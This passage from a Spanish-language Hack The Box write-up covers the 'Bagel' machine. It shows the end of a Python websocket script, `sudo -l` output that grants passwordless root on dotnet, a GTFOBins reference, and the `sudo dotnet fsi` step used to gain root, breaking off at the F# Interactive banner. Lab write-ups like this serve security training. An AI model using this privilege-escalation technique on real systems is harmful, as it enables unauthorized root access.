 ```bash
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```

Bueno también gracias a que nos dieron el **dll** mediante el **LFI** pudimos aprovecharnos de explotar todo 

Si hacemos un `sudo -l` podemos ejecutar como **root** sin proporcionar contraseña esto

```bash
[developer@bagel ~]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
[developer@bagel ~]$ 

```

<https://gtfobins.github.io/gtfobins/dotnet/#sudo>

![](/assets/images/htb-writeup-bagel/web9.png)

Bueno si seguimos los pasos podemos tanto leer archivos como ser root directamente así que yo prefiero convertirme en root y funciona 

```bash
[developer@bagel ~]$ sudo /usr/bin/dotnet fsi

Welcome to .NET 6.0!
---------------------
SDK Version: 6.0.113

----------------
Installed an ASP.NET Core HTTPS development certificate.
To trust the certificate run 'dotnet dev-certs https --trust' (Windows and macOS only).
Learn about HTTPS: https://aka.ms/dotnet-https
----------------
Write your first app: https://aka.ms/dotnet-hello-world
Find out what's new: https://aka.ms/dotnet-whats-new
Explore documentation: https://aka.ms/dotnet-docs
Report issues and find source on GitHub: https://github.com/dotnet/core
Use 'dotnet --help' to see available commands or visit: https://aka.ms/dotnet-cli
--------------------------------------------------------------------------------------

Microsoft (R) F# Interactive version 12.0.0.0 for F# 6.0
```